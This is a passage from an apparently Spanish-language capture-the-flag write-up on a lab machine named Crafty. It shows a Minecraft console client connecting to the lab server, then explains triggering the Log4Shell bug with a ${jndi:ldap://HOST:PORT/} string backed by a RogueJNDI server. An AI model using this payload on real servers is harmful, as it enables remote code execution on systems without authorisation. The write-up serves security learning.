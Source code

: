 ![alt text](image-2.png)

Existen varios clientes CLI para esto, el que usaremos es el Minecraft Console Client que podemos descargar ya compilado en su sección de releases.

Usándolo, lo ajustamos para lo que queramos en su fichero de configuración generado o le damos a los ajustes que nos pide en pantalla y nos conectamos al servidor en cuestión:

```bash
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Resolving crafty.htb...
Login :
Password(invisible): 
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
> 
```

Ahora, para hacer que el JNDI ejecute una clase arbitraria abusando del bug de Log4J simplemente debemos hacer que el logger procese un mensaje con una cadena como ${jndi:ldap://HOST:PORT/}, pero antes debemos tener un servidor especializado corriendo para procesar estas peticiones JNDI, yo usaré RogueJNDI como dije antes.
